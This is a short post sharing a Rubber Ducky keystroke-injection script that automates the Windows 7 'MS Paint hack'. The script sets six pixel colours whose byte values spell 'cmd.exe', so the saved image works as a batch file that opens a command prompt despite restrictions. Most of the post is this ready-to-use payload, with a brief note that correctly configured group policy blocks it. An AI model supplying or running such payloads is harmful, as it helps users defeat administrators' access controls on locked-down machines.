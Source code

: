 The following is some duck script I made for easily setting up the MS Paint hack from way back in episode 925. Machines secured correctly with group policies are not susceptible to this attack. You are still required to save the file correctly, and input the colors in the correct order, but they should already be in the correct order in the custom color box. The setup script can only work for Windows 7, because Windows Vista's paint app messes up the input.

```
REM by overwraith
REM PAINTHACK_WINDOWS7 BEGINS
REM MSPAINT hack revealed by "Operator"
CONTROL ESCAPE
DELAY 200
STRING mspaint
ENTER
DELAY 1000
CTRL E
STRING 6
TAB
STRING 1
Enter
CTRL PAGEUP
REPEAT 5
REM ****FIRST COLOR****
ALT H
STRING EC
ALT R
STRING 10
TAB
STRING 0
TAB
STRING 0
ENTER
REM ****SECOND COLOR****
ALT H
STRING EC
ALT R
STRING 13
TAB
STRING 10
TAB
STRING 13
ENTER
REM ****THIRD COLOR****
ALT H
STRING EC
ALT R
STRING 100
TAB
STRING 109
TAB
STRING 99
ENTER
REM ****FOURTH COLOR****
ALT H
STRING EC
ALT R
STRING 120
TAB
STRING 101
TAB
STRING 46
ENTER
REM ****FIFTH COLOR****
ALT H
STRING EC
ALT R
STRING 0
TAB
STRING 0
TAB
STRING 101
ENTER
REM ****SIXTH COLOR****
ALT H
STRING EC
ALT R
STRING 0
TAB
STRING 0
TAB
STRING 0
ENTER
```